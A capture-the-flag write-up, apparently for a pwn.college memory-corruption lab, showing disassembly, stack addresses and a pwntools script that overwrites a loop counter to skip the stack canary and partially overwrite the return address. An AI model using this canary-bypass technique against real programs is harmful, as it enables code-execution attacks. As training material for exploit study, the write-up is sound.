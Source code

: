 -Let's goooo!!! After reading the instructions, I debug the program and find some important segments.
```
0x0000000000002754 <+1073>:  lea    rax,[rbp-0x58]
0x0000000000002758 <+1077>:  mov    rsi,rax
0x000000000000275b <+1080>:  lea    rdi,[rip+0x15ce]        # 0x3d30
0x0000000000002762 <+1087>:  mov    eax,0x0
0x0000000000002767 <+1092>:  call   0x11d0 <__isoc99_scanf@plt>
```

```
0x0000000000002a02 <+1759>:  mov    rax,QWORD PTR [rbp-0x48]
0x0000000000002a06 <+1763>:  mov    eax,DWORD PTR [rax]
0x0000000000002a08 <+1765>:  movsxd rdx,eax
0x0000000000002a0b <+1768>:  mov    rax,QWORD PTR [rbp-0x50]
0x0000000000002a0f <+1772>:  add    rax,rdx
0x0000000000002a12 <+1775>:  mov    edx,0x1
0x0000000000002a17 <+1780>:  mov    rsi,rax
0x0000000000002a1a <+1783>:  mov    edi,0x0
0x0000000000002a1f <+1788>:  call   0x11a0 <read@plt>
```

```
0x0000000000002a24 <+1793>:  mov    rdx,QWORD PTR [rbp-0x48]
0x0000000000002a28 <+1797>:  mov    edx,DWORD PTR [rdx]
0x0000000000002a2a <+1799>:  add    eax,edx
0x0000000000002a2c <+1801>:  mov    edx,eax
0x0000000000002a2e <+1803>:  mov    rax,QWORD PTR [rbp-0x48]
0x0000000000002a32 <+1807>:  mov    DWORD PTR [rax],edx
0x0000000000002a34 <+1809>:  mov    rax,QWORD PTR [rbp-0x48]
0x0000000000002a38 <+1813>:  mov    eax,DWORD PTR [rax]
0x0000000000002a3a <+1815>:  movsxd rdx,eax
0x0000000000002a3d <+1818>:  mov    rax,QWORD PTR [rbp-0x58]
0x0000000000002a41 <+1822>:  cmp    rdx,rax
0x0000000000002a44 <+1825>:  jb     0x29d6 <challenge+1715>
```
**-The program operates:**
- It writes one byte of your input to locate the address(input + n)
- Check n < size and loop; otherwise, it exits.

**Check address of some variable:**
```
buf = 0x7ffde672cd90
n = 0x7ffde672cdb8
ret_addr= 0x7ffde672cdd8
```
-As you see, we can overwrite variable n, so what happens when we overwrite it??
-We can jump to the address of what we want and overwrite it; moreover, we can bypass canary.
-Therefore, we calculate the offset to write a suitable value, and the number of payload sizes and lengths of n to exploit successfully.
**My script:**
```
from pwn import *
while True:
    r = process('/challenge/babymem_level9.0')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'74')
    r.recvuntil(b'Send your payload (up to 74 bytes)!')
    r.sendline(b'A'*37 + p32(0x47000000) + 0x222b.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```